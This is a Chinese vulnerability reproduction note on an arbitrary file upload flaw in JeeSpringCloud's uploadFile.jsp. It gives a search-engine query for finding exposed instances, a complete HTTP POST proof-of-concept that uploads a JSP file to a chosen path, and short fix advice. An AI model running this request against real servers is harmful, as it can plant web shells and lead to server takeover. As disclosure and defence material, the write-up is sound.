


# JeeSpringCloud uploadFile.jsp 文件上传漏洞复现

###  0x01 产品简介

  JeeSpringCloud是一款免费开源的JAVA互联网云[快速开发平台](https://so.csdn.net/so/search?q=%E5%BF%AB%E9%80%9F%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)，微服务分布式代码生成的敏捷开发系统架构，项目代码简洁、注释丰富、上手容易、还同时集中分布式、分布式事务、微服务,同时包含许多基础模块和监控、服务模块，JeeSpringCloud GVP项目、1k+Star项目。

### 0x02 漏洞概述

 JeeSpringCloud 是一款免费开源的 Java 互联网云快速开发平台。JeeSpringCloud 访问 /static/uploadify/uploadFile.jsp 可上传任意文件，并可通过 uploadPath 参数指定文件上传路径，导致服务器被控制。

### 0x03 复现环境

钟馗之眼：app:"JeeSpringCloud"



### 0x04 漏洞复现 

PoC

```cobol
POST /static/uploadify/uploadFile.jsp?uploadPath=/static/uploadify/ HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 199
Content-Type: multipart/form-data; boundary=0d0d9bdfedC1bF17Cb47265DdCb04266
Accept-Encoding: gzip
Connection: close

--0d0d9bdfedC1bF17Cb47265DdCb04266
Content-Disposition: form-data; name="fileshare"; filename="1.jsp"
Content-Type: image/jpeg

<% out.println("hello"); %>
--0d0d9bdfedC1bF17Cb47265DdCb04266--
```



验证路径

```cobol
http://your-ip/static/uploadify/回显的jsp文件名
```


### 0x05 修复建议

关闭互联网暴露面或文件上传模块设置权限认证

升级至安全版本
